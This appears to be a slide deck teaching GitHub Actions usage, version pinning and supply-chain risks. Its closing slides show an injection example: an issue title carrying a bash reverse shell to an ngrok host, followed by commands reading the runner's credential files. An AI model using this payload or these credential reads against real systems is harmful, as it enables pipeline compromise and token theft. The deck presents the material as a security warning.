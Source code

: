 <!-- .slide: -->
# Marketplace
## 👉 [How to use](https://github.com/marketplace?type=actions)

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: 
Node ou Docker
Demo direct sur la marketplace

Gaetan

##==##
<!-- .slide: class="with-code" -->

# Use an GitHub Action from the marketplace

## Using versioned actions

```yaml
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference the major version of a release
  - uses: actions/checkout@v3
    
  # Reference a specific version
  - uses: actions/checkout@v3.2.0
    
  # Reference a branch
  - uses: actions/checkout@main
```

<br> 
<br> 

## Using actions with parameters
```yaml
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

Notes:

Gaetan

##==##
<!-- .slide: -->
# Usefuls actions

* 👉 [**actions/checkout**](https://github.com/marketplace/actions/checkout)

  * allow to checkout a repository 
  * github_token, ref, depth, path, ... customization

* 👉 [**actions/setup**](https://github.com/marketplace?type=actions&query=setup+)

  * allow to install a tool
  * provided by github and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* 👉 [**actions/dependency-review-action**](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raise an error if vulnerabilities found.

Notes:

Gaetan

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version

Thibauld

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* step of our Github Actions

```yaml
      - run: |
         echo "ISSUE TITLE: ${{github.event.issue.title}}"
         echo "ISSUE DESCRIPTION: ${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action
```yaml
New malicious issue title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "
```

Notes:

ngrok to make a backdoor

Thibauld

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Credential 

```yaml
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

Notes:

Thibauld
